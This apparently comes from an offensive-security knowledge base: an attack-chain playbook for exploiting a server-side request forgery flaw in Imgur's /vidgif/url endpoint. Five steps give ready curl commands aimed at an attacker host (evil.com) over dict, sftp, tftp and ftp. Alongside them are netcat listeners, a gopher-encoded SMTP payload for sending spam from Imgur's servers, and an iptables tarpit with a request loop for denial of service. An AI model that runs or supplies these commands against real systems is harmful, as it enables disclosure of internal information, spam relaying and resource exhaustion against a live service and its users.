

---
tags:
  - ssrf
  - information-disclosure
  - dos
  - smtp-exploit
  - udp-crafting
  - imgur
type: attack_chain
tools:
  - '[[tools/netcat]]'
  - '[[tools/PHP]]'
  - '[[tools/iptables]]'
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
  - '[[Impact]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Test-SSRF-on-Imgur-VidGif-Endpoint]]'
  - '[[procedures/Capture-SSRF-Connections-with-Netcat-for-Info-Disclosure]]'
  - '[[procedures/Craft-SMTP-Exploit-via-Gopher-Protocol-with-PHP-Redirect]]'
  - '[[procedures/Demonstrate-UDP-SSRF-with-TFTP-and-Netcat]]'
  - '[[procedures/Explore-FTP-DoS-with-Iptables-Tarpit]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Gather Victim Host Information]]'
  - '[[Network Denial of Service]]'
updated_at: '2025-12-14T03:46:09.029Z'
description: >-
  A multi-stage exploitation of SSRF in Imgur's /vidgif/url endpoint using
  libcurl's unrestricted protocols to leak internal software versions, send spam
  emails, craft UDP packets, and perform resource exhaustion DoS.
skill_level: intermediate
impact_level: high
id: 168a18ae-22bf-44f6-a606-47f459239917
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Gather Victim Host Information]]'
  - '[[Network Denial of Service]]'
---
# Imgur SSRF Exploitation Chain for Information Disclosure SMTP Spam and DoS

Multi-stage attack chain demonstrating exploitation of SSRF in Imgur's /vidgif/url endpoint, allowing arbitrary protocol connections via libcurl to leak internal software versions, send spam from Imgur IPs, craft malicious UDP packets to internal services, and exhaust resources through long-lived connections.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/netcat]]
- [[tools/PHP]]
- [[tools/iptables]]

### Target Environment

- Web platform with access to Imgur's /vidgif/url endpoint
- Required services/ports: 25 (SMTP), 11111 (DICT/SSH test), 12345 (FTP DoS), 12346 (GOPHER/TFTP test), 514 (syslog)
- Network access requirements: Public internet access to Imgur and ability to host listener servers

### Initial Access Requirements

- No credentials required
- Attacker must control external servers for listeners (e.g., evil.com)
- Prior access needed: None, as it's a public-facing web vulnerability

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Test-SSRF-on-Imgur-VidGif-Endpoint]]

**Objective**: Test the /vidgif/url endpoint for SSRF by supplying non-HTTP URLs to confirm arbitrary protocol support.

**Instructions**: Use a tool like curl to send a request to the endpoint with a test URL using an unsupported protocol like sftp:// or dict://. For example, execute [[commands/curl-ssrf-test]] to probe the endpoint:

```bash
curl "https://imgur.com/vidgif/url?url=sftp://evil.com:11111/"
```

Monitor for connection attempts on your listener to confirm SSRF.

**Expected Output**: HTTP response from Imgur, but server-side connection to your controlled host.

**Success Indicators**:
- No error on HTTP request
- Incoming connection on listener port

### Step 2: Capture Connections for Disclosure
procedure: [[procedures/Capture-SSRF-Connections-with-Netcat-for-Info-Disclosure]]

**Objective**: Set up a listener to capture connections and leak Imgur's internal software versions via SSH or DICT banners.

**Instructions**: Start a netcat listener on port 11111 using [[commands/nc-listen-tcp-verbose]]:

```bash
nc -v -l 11111
```

Then trigger the SSRF with [[commands/curl-ssrf-trigger]]:

```bash
curl "https://imgur.com/vidgif/url?url=dict://evil.com:11111/"
```

**Expected Output**: Connection from Imgur IP with banner like "CLIENT libcurl 7.40.0" or "SSH-2.0-libssh2_1.4.2".

**Success Indicators**:
- Banner leakage confirming libcurl 7.40.0 and libssh2 1.4.2
- Potential CVE identification (e.g., CVE-2015-1782)

### Step 3: Craft SMTP Spam via Gopher
procedure: [[procedures/Craft-SMTP-Exploit-via-Gopher-Protocol-with-PHP-Redirect]]

**Objective**: Use GOPHER protocol to craft and send spam emails from Imgur's servers via SMTP.

**Instructions**: Create a PHP redirect file encoding the GOPHER payload for SMTP commands. Host it on your server, then trigger via [[commands/curl-gopher-trigger]]:

```bash
curl "https://imgur.com/vidgif/url?url=http://yourserver.com/gopher.php?rand=$(date +%s)"
```

The PHP should redirect to `gopher://test.smtp.org:25/_HELO%0AMAIL%20FROM:%20<imgur@imgur.com>%0ARCPT%20TO:%20<victim@example.com>%0ADATA%0ATest%20mail%0A.%0AQUIT`.

**Expected Output**: Email sent from Imgur IP to recipient.

**Success Indicators**:
- Spam email received
- SMTP session captured on listener if set up

### Step 4: Demonstrate UDP SSRF with TFTP
procedure: [[procedures/Demonstrate-UDP-SSRF-with-TFTP-and-Netcat]]

**Objective**: Force Imgur to send crafted UDP packets to internal services like Redis using TFTP protocol.

**Instructions**: Start UDP listener with [[commands/nc-listen-udp-verbose]] on port 12346:

```bash
nc -v -u -l 12346
```

Trigger SSRF using [[commands/curl-tftp-trigger]]:

```bash
curl "https://imgur.com/vidgif/url?url=tftp://evil.com:12346/TESTUDPPACKET"
```

**Expected Output**: UDP packet received, e.g., "TESTUDPPACKEToctettsize0blksize512timeout6".

**Success Indicators**:
- UDP packet from Imgur to listener
- Potential for attacks on Redis/Memcache if internal

### Step 5: Explore FTP DoS with Tarpit
procedure: [[procedures/Explore-FTP-DoS-with-Iptables-Tarpit]]

**Objective**: Hold Imgur connections open via FTP to exhaust server resources.

**Instructions**: Configure iptables TARPIT on port 12345 using [[commands/iptables-tarpit-setup]]:

```bash
iptables -t mangle -A PREROUTING -p tcp --dport 12345 -j TARPIT
```

Trigger multiple SSRF requests with [[commands/curl-ftp-trigger]]:

```bash
for i in {1..10}; do curl "https://imgur.com/vidgif/url?url=ftp://evil.com:12345/TEST" & done
```

**Expected Output**: Long-lived connections held open due to curl timeouts.

**Success Indicators**:
- Connections persist without closing
- Resource exhaustion on Imgur side

## Attack Chain Summary

### Key Achievements

1. Leaked internal libcurl and libssh2 versions for CVE chaining
2. Sent spam emails from trusted Imgur IPs
3. Crafted UDP packets for internal service attacks
4. Demonstrated potential DoS via resource exhaustion

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Gather Victim Host Information]] Gather Victim Host Information
- [[Network Denial of Service]] Network Denial of Service

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Reconnaissance]] Reconnaissance
- [[Impact]] Impact

---
*Last updated: 2023-10-01T00:00:00Z*
